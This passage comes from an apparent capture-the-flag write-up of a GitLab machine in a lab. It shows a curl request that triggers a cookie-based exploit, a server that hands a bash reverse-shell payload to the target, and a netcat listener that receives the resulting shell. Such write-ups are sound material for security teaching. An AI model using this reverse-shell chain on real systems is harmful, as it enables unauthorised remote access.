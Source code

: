 Now let us start our www-server to server a bash reverse-shell payload. I am going to use my [RevServ script](https://github.com/chr0x6eos/RevServ) to do so.

Now we simply have to issue a request with the cookie using curl to trigger the exploit.

```bash
root@darkness:~# curl -L -k "http://git.laboratory.htb/users/sign_in" -b "experimentation_subject_id=$COOKIE"
```

Checking our to our RevServ script, we successfully served the reverse-shell payload:

```bash
root@darkness:~# revserv

   _____  _            _  _                                                 
  / ____|| |          | || |                                                
 | (___  | |__    ___ | || |  ______   ___   ___  _ __ __   __ ___  _ __    
  \___ \ |  _ \  / _ \| || | |______| / __| / _ \|  __|\ \ / // _ \|  __|   
  ____) || | | ||  __/| || |          \__ \|  __/| |    \ V /|  __/| |      
 |_____/ |_| |_| \___||_||_|          |___/ \___||_|     \_/  \___||_|      
  _               _____  _             ___           __          ____       
 | |             / ____|| |           / _ \         / /         / __ \      
 | |__   _   _  | |     | |__   _ __ | | | |__  __ / /_    ___ | |  | | ___ 
 |  _ \ | | | | | |     |  _ \ |  __|| | | |\ \/ /|  _ \  / _ \| |  | |/ __|
 | |_) || |_| | | |____ | | | || |   | |_| | >  < | (_) ||  __/| |__| |\__ \\
 |_.__/  \__, |  \_____||_| |_||_|    \___/ /_/\_\ \___/  \___| \____/ |___/
          __/ |                                                             
         |___/                                                              

Twitter:    https://twitter.com/Chr0x6eOs
Github:     https://github.com/Chr0x6eOs
____________________________________________________________________________
    
[*] Serving bash-reverse-shell on 0.0.0.0:80...
[*] Served reverse-shell payload via http to 10.10.10.216!
```

Checking our netcat-listener, we successfully got a shell.

```bash
root@darkness:~# nc -lnvp 443
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.216.
Ncat: Connection from 10.10.10.216:39056.
bash: cannot set terminal process group (395): Inappropriate ioctl for device
bash: no job control in this shell
git@git:~/gitlab-rails/working$
```

## Privesc - User

Now that we have our initial shell, let us enumerate the system to escalate our privileges to user.
